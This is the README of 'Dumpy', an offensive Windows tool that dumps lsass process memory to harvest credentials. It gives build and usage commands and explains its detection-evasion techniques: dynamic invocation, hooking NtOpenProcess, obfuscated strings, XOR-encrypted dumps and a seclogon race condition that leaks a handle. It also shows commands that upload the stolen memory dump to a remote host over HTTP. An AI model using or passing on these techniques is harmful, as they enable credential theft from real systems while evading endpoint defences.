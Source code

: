 # Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NtOpenProcess is hooked before calling MiniDumpWriteDump to avoid the opening of a new process handle over lsass.

NTFS Transaction are used in order to xor the memory dump before storing it on disk or sending it throught HTTP.

**Support added for both x86 and x64**.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	C:\Users\User\Desktop\Dumpy\dumpy> set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	C:\Users\User\Desktop\Dumpy\dumpy> cargo build --release
	C:\Users\User\Desktop\Dumpy\dumpy\target\x86_64-pc-windows-msvc\release> dumpy.exe -h

In case that you want to compile the tool for a x86 system, modify the value of the option "target" in the file .cargo\config (e.g: target = "i686-pc-windows-msvc").

# Usage

	Usage: dumpy.exe --dump|--decrypt [options]

	Options:
	    -h, --help          Print this help menu.
	        --dump          Dump lsass.
	        --decrypt       Decrypt a previously generated dump file.
	    -f, --force         Force seclogon's service to leak a lsass handle
	                        through a race condition.
	    -k, --key           Encryption key [default: 1234abcd]
	    -i, --input         Encrypted dump file [default: c:\temp\input.txt]
	    -o, --output        Destination path [default: c:\temp\output.txt]
	    -u, --upload        Upload URL

Dumpy has two main actions:

- **dump**: It will execute the main logic to dump the lsass. By default, it will store the result in a xored text file with a random name in the current directory. The option **upload** allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports **multipart/form-data requests** will work.

		C:\Temp> dumpy.exe --dump -k secretKey -u http://remotehost/upload

If you want to force the leakage of a handle to the lsass through the race condition in seclogon's service described by [Antonio Cocomazzi](https://twitter.com/splinter_code) in [this post](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html), just use the option **force**:

		C:\Temp> dumpy.exe --dump -k secretKey -u http://remotehost/upload --force

- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, **it is required to perform a base64 decoding of the content before this decryption process**.

		C:\Temp> dumpy.exe --decrypt -i xored.txt -o decrypted.txt -k secretKey
